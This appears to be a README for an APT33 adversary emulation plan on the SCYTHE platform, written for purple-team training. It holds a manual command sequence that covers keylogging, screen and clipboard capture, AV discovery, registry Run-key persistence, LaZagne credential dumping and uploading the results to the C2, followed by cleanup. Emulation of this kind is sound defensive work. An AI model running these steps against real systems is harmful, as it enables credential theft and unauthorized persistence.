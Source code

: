 # APT33 Adversary Emulation
APT33, HOLMIUM, Elfin

## Executive Summary
Multiple campaigns emulating APT33 based on this Threat Thursday post: https://www.scythe.io/library/threatthursday-apt33
An additional campaign for SANS SEC699: Purple Team Tactics - Adversary Emulation for Breach Prevention & Detection (https://www.sans.org/cyber-security-courses/purple-team-tactics-adversary-emulation/) is also provided. SANS SEC699 has multiple labs teaching students how to build and run adversary emulation plans. 

## Cyber Threat Intelligence
APT33 is a suspected Iranian threat group that has carried out operations since at least 2013. The group has targeted organizations across multiple industries in the United States, Saudi Arabia, and South Korea, with a particular interest in the aviation and energy sectors. 

### Targets
The group has targeted organizations across multiple industries in the United States, Saudi Arabia, and South Korea, with a particular interest in the aviation and energy sectors. 

### Objectives
Establishing persistent access to partners and suppliers of targets. Mounting supply chain attacks.

### Capabalities
Unmanaged PowerSHell

## Attack - SEC699 Emulation Plan
This is a multi campaign threat that requires the following steps to be done first:
- Create a new campaign called Shell. It does not need to have automation.
- Download the 64-bit EXE for that campaign as Shell.exe
- 7zip or WinRAR it with password: BearsBeetsBattleStarGalactica
- Upload Shell.zip to VFS:/shared/threats/APT33/

### Automated Emulation
To emulate:
1. Download and import the threat in JSON format to your SCYTHE instance
2. Download the Virtual File System (VFS) files under VFS
3. Upload the VFS files to your SCYTHE VFS in the following location: VFS:/shared/threats/APT33
4. Create a new campaign
5. Import from Existing Threat: APT33_SEC699
6. Launch Campaign

Note that different TTPs will be performed based privilege of the SCYTHE client.

### Manual Emulation
Start a campaign and perform the following steps from a shell:
```
Start (with https, loader, and controller)
loader --load keylogger
keylogger --start
loader --load printscr
printscr --window Desktop
loader --load clipboard
clipboard
loader --load sysinfo
sysinfo
loader --load processes
processes
loader --load services
services --all
loader --load arp
arp
loader --load upsh
upsh --cmd Get-CimInstance -Namespace root/SecurityCenter2 -ClassName AntivirusProduct
upsh --cmd Get-DnsClientServerAddress
STEP = FROM SEC699
upsh --cmd mkdir -Force $env:userprofile\Desktop\APT33
loader --load downloader
downloader --src VFS:/shared/threats/APT33/Shell.zip --dest %USERPROFILE%\Desktop\APT33\Shell.zip
downloader --src VFS:/shared/threats/APT33/WinRAR.exe --dest %USERPROFILE%\Desktop\APT33\WinRAR.exe
upsh --cmd cd $env:userprofile\Desktop\APT33 ; .\WinRAR.exe x -ibck -pBearsBeetsBattleStarGalactica .\Shell.zip
upsh --cmd cd $env:userprofile\Desktop\APT33 ; Start-Process Shell.exe
controller --integrity
If step 25 does not contain "High" goto step 36
upsh --cmd cp $env:userprofile\Desktop\APT33\Shell.exe C:\Shell.exe
upsh --cmd Set-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run -Name apt33 -Value C:\Shell.exe
upsh --cmd Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Run -Name apt33
downloader --src VFS:/shared/threats/APT33/lazagne.exe --dest %USERPROFILE%\Desktop\APT33\lazagne.exe
upsh --cmd cd $env:userprofile\Desktop\APT33 ; .\lazagne.exe all | Out-File lazagne_results.txt
delay --time 60
upsh --cmd Compress-Archive -Path $env:userprofile\Desktop\APT33\lazagne_results.txt -CompressionLevel Optimal -Destination $env:userprofile\Desktop\APT33\results.zip
loader --load uploader
uploader --remotepath %USERPROFILE%\Desktop\APT33\results.zip
keylogger --current
STEP = CLEANUP
delay --time 3600
keylogger --current
keylogger --stop
upsh --cmd Stop-Process -Name Shell
upsh --cmd cd $env:userprofile\Desktop\ ; Remove-Item APT33 -Force -Recurse
If step 25 does not contain "High" goto step 46
upsh --cmd Remove-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Run\ -name apt33
upsh --cmd Remove-Item C:\Shell.exe
controller --shutdown
Finish
```

## References
https://www.scythe.io/library/threatthursday-apt33
https://attack.mitre.org/groups/G0064/